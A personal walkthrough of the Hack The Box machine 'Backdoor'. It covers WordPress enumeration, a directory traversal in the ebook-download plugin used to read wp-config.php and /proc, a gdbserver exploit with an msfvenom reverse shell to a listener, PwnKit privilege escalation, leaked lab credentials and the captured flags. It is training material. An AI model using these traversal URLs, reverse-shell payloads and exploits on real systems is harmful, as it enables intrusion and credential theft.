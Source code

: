 # Enumeration
## nmap
`nmap -sV -A -v 10.10.11.125`
![[Screenshot 2022-04-26 at 17.07.17.png]]

## gobuster
`gobuster dir -u http://backdoor.htb/ -x php,txt,html,bak,zip -e -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
![[Screenshot 2022-04-27 at 15.00.52.png]]
+ _http://backdoor.htb/server-status        (Status: 403) [Size: 277]_

## wpscan 
### ernumeration
`wpscan --url 10.10.11.125 --enumerate`
![[Screenshot 2022-04-26 at 17.37.05.png]]
![[Screenshot 2022-04-26 at 17.38.07.png]]
![[Screenshot 2022-04-26 at 17.38.46.png]]
### plugins
`wpscan --url http://backdoor.htb/ --enumerate p,u --plugins-detection aggressive`
the _p_ and _u_ after _--enumerate_ is for enumerating plugins and users specifically.
![[Screenshot 2022-04-27 at 15.07.24.png]]
![[Screenshot 2022-04-27 at 15.07.41.png]]
The part to focus on is the _akismet_ plugin.
Looking it up, it appears it is vulnerable to XSS!

# Foothold
Looking around on the website there are a couple pages _contact_, _blog_, _about_ and homepage
![[Screenshot 2022-04-26 at 17.35.58.png]]

Going to _ http://backdoor.htb/wp-admin _ shows the admin login page. It was confirmed by the _wpscan_ that there is a user admin. (deadend)

## searchsploit
`searchsploit wordpress 5.3` resulted in some exploits, but mainly DOS ones, which are not very helpful. However, there might be some plugins used with vulnerabilities.
![[Screenshot 2022-04-27 at 11.50.27.png]]

## website
Visiting http://backdoor.htb/wp-content/plugins/ shows the plugins used
![[Screenshot 2022-04-27 at 15.51.27.png]]
_hello.php_ is empty, but the ebook is interesting. The readme withing the ebook_upload directory shows that there is very little restriction to what can be done in terms of uploading files, etc.
Looking through the files I found some images and other files:
- franta@masd.cz
- ebookdownloads/ahoj-2![[Screenshot 2022-04-27 at 15.55.55.png]]
- ebookdownload.php + filedownload.php --> lfi/rce in URL?
 
# Exploit
Looking into the ebook plugin, I found an [exploit](https://www.exploit-db.com/exploits/39575) which allows for directory traversal in the URL.
So I entered `http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php` in the URL and got the file.
![[Screenshot 2022-04-28 at 10.53.22.png]]
Looks like we got the credentials for a MySQL DB _wordpress_ --> _wordpressuser:MQYBJSaD#DxG6qbm_
Logging in with the credentials did not work, so rather trying the LFI through burp with an intrusion attack using `/home/kali/tools/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt`. Turns out not using the path traversal and only using _/etc/passwd_ showed the user file:
![[Screenshot 2022-04-28 at 11.10.21.png]]
**All deadends**

## port 1337 - waste
Looking up some help, I found that another nmap scan of higher ports was necessary, and got the port _1337_:
![[Screenshot 2022-04-28 at 11.27.31.png]]
Looking it up, this is the port where its possible to [create a backdoor]()

### searchsploit
Doing a quick searchsploit it appears there are alot of shellcodes for this port
![[Screenshot 2022-04-28 at 11.54.28.png]], so I proceed to look into them.

## processes
There is apparently something else interesting in the processes running on my machine:
![[Screenshot 2022-04-28 at 11.38.22.png]]![[Screenshot 2022-04-28 at 11.38.53.png]]
The _self_ process is inked to another process _257460_. `ls -l /proc/self` shows
![[Screenshot 2022-04-28 at 11.42.15.png]].
Trying `cat /proc/self/cmdline` returns
![[Screenshot 2022-04-28 at 11.43.59.png]], which oddly enough there is no space between _cat_ and the file. `curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o-` shows that there is an apache2-k server running? 
![[Screenshot 2022-04-28 at 11.47.56.png]] Breaking it down it appears it is `/usr/sbin/apache2 -k start`.

==========
**Finding the right process shows gdbserver running which is where the exploit can be executed!** How to:
1. `http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/sched_debug`
![[Screenshot 2022-04-28 at 12.55.24.png]]
2. Go to `http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/31302` to double check
3. [helpful](https://www.youtube.com/watch?v=eAuUIT3I2II)
==========
## msfconsole
Using the [gdbserver exploit](https://www.exploit-db.com/exploits/50539) but in metasploit so the `multi/gdb/gdb_server_exec`, and setting all the options right + **changing** the paylaod from x86 to x64 architecture, before running it generated a session, which I then turned into a shell using python:
![[Screenshot 2022-04-28 at 12.09.12.png]]
![[Screenshot 2022-04-28 at 12.10.15.png]]
And I got the user flag.

## non-msfconsole
Downloaded the [exploit](https://www.exploit-db.com/exploits/50539)
Created the payload using `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 PrependFork=true -o rev.bin`. Set up a liste!ner and ran the exploit `python3 50539.py 10.10.11.125:1337 rev.bin`:
[[Screenshot 2022-04-28 at 12.31.53.png]]
![[Screenshot 2022-04-28 at 12.31.26.png]]
(using the payload created with `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -o elf` did not work as im it did not establish a proper session after connecting.)
# Privesc
I imported linpeas and decided to have a look around. It appears linpeas found the system is vulnerable to `CVE-2021-4034` which is _pwnkit_ aka something I have done before. Taking the easy path first I tried importing and running _PwnKit_ and we got a root shell + the flag.


# Other Privesc metods
![[Screenshot 2022-04-28 at 12.24.16.png]]

===================

# Flags
8d112e9afa0224d1fe7242fd821b4824
2177ae87968206f1a1ad7db3f50c1520
# Thoughts
- wordpress 5.8.1
- https://www.wordfence.com/blog/2021/03/medium-severity-vulnerability-patched-in-user-profile-picture-plugin/
- ebook plugin --> uploading exploit?
# New Things Learnt
- wpscan (~ish)
- [XML-RPC](http://xmlrpc.com/)
- go to /wp-content/plugins
- more thorough nmap scans!
- [gdbserver](https://sourceware.org/gdb/onlinedocs/gdb/Server.html)
- screen --> sortof multiple terminals/vms running simultaneously with different purposes/processes, so the user can be changed from one of the currently active ones to another
![[Screenshot 2022-04-29 at 14.15.41.png]]
The _cleaned process_ `root         803  0.0  0.0   2608  1676 ?        Ss   09:53   0:01      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done`
1. more thorough enumerations(nmap) scans
2. worpress plugins
3. LFI
4. processes
5. gdbserver exploit
6. 2 privescs = CVE / [screen](https://www.kali.org/tools/screen/)


# Useful writeups for further reading
- https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html#process-enumeration
- https://medium.com/@bocahganteng/write-up-backdoor-htb-c0092079ef2c
- 